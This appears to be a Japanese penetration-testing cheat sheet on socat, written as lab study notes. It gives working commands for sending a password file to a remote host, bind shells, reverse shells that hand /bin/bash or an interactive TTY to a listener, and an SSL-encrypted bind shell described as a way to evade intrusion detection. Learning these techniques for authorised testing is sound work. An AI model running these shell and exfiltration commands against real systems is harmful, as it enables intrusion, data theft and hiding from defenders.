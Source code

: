 # Socat

### ファイル転送

* 転送するファイルを指定する

  ```
  # kali
  sudo socat TCP4-LISTEN:443,fork file:secret_passwords.txt
  ```

  * fork ：リスナーに接続されると子プロセスを作成する

* ファイルを取得する

  ```
  # windows
  socat TCP4:10.11.0.4:443 file:received_secret_passwords.txt,create
  ```



### バインドシェル

```bash
# client
socat - TCP4:<remote server's ip address>:80

# listener
sudo socat TCP4-LISTEN:443 STDOUT
```



### リバースシェル

```bash
# listener
socat -d -d TCP4-LISTEN:443 STDOUT

# sender
socat TCP4:10.11.0.22:443 EXEC:/bin/bash
```



### リバースシェル(tty)

```bash
# listener
socat file:`tty`,raw,echo=0 tcp-listen:60000

# sender
socat TCP4:192.168.119.175:60000 exec:'bash -li',pty,stderr,setsid,sigint,sane
```



### 暗号化バインドシェル

バインドシェルに暗号化を加えるには、Secure Socket Layer1 証明書を使用する
侵入検知システム (IDS)2の回避に役立ち、転送される機密データを隠すのに役立つ

* 自己署名証明書を作成する

  ```
  openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt
  ```

  * req: 新しい証明書署名要求を開始する
  * -newkey: 新しい秘密鍵を生成する
  * rsa:2048: 2,048 ビットの鍵長で RSA 暗号を使用します。
  * -nodes: パスフレーズ保護なしで秘密鍵を保存します。
  * -keyout: 鍵をファイルに保存する
  * -x509: 証明書要求の代わりに自己署名入り証明書を出力する
  * -days: 有効期限を日数で設定
  * -out: 証明書をファイルに保存

* 鍵を生成したら、証明書とその秘密鍵をファイルにcatする

  ```
  cat bind_shell.key bind_shell.crt > bind_shell.pem
  ```

* バインドシェルプロセスを作成する

  ```
  # kali
  sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash
  ```

  OPENSSL-LISTEN オプションを使用してポート 443 にリスナーを作成し、 cert=bind_shell.pem で証明書ファイルを指定し、 verify で SSL 検証を無効にし、 fork でリスナーに接続

* バインドシェルを接続する

  ```
  # windows
  socat - OPENSSL:10.11.0.4:443,verify=0
  ```

  

  

